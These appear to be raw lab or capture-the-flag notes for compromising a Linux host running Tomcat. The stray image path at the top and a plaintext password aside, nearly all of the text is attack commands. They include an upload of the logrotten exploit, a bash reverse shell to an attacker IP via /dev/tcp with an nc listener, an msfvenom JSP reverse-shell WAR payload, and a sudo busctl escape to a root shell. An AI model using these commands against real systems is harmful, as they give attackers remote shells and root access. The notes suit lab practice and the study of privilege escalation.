 scp logrotten barry@10.129.78.151:/home/barry/
i_l0ve_s3cur1ty!


ls -l /var/log/tomcat9/

touch /var/log/tomcat9/catalina.out
echo 'bash -i >& /dev/tcp/10.10.14.179/9001 0>&1' > payload
./logrotten -p ./payload /var/log/tomcat9/catalina.out
logrotate -f /etc/logrotate.d/tomcat9

nc -nlvp 9001

echo 11 > /var/log/tomcat9/catalina.out

find / -type f -name logrotate.*  -exec ls -l {} \; 2>/dev/null

Command: logrotate --version

logrotate 3.14.0

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes


--> logrotate not vulnerable

Command: sudo -l

Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl

https://gtfobins.github.io/gtfobins/busctl/

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.179 LPORT=4444 -f war > reverse.war

Payload size: 1106 bytes
Final size of war file: 1106 bytes


nc -lnvp 4444
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'

python -c 'import pty; pty.spawn("/bin/bash")'
--> Nothing

which python
--> Nothing
